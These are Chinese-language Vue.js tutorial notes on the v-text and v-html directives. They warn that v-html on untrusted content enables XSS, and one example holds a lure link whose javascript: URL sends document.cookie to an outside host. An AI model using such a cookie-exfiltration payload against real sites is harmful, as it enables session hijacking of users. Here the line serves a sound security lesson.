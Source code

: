 # 19.内置指令

## 1. v-text指令

1. 作用：向其所在的节点中**渲染文本内容**。
2. 与插值语法的区别：`v-text`会**替换掉节点中的全部内容**，`{{xx}}`则不会。

```html
<body>
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-text="name"></div>
        <div v-text="str"></div>
    </div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷',
            str:'<h3>你好啊！</h3>'
        }
    })
</script>
```

## 2. v-html指令

1. 作用：向指定节点中**渲染包含 html 结构的内容**
2. 与插值语法的区别：
   1. `v-html` 会**替换掉节点中所有的内容**，`{{xx}}`则不会。
   2. `v-html`可以**识别 html 结构**
3. 严重注意：v-html有安全性问题！！！！
   1. 在网站上**动态渲染任意 HTML** 是非常危险的，容易导致 **XSS 攻击**。
   2. 一定要在可信的内容上使用 `v-html`，永远**不要用在用户提交**的内容上！

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

![image-20211011222221216](https://raw.githubusercontent.com/TWDH/Leetcode-From-Zero/pictures/img/image-20211011222221216.png)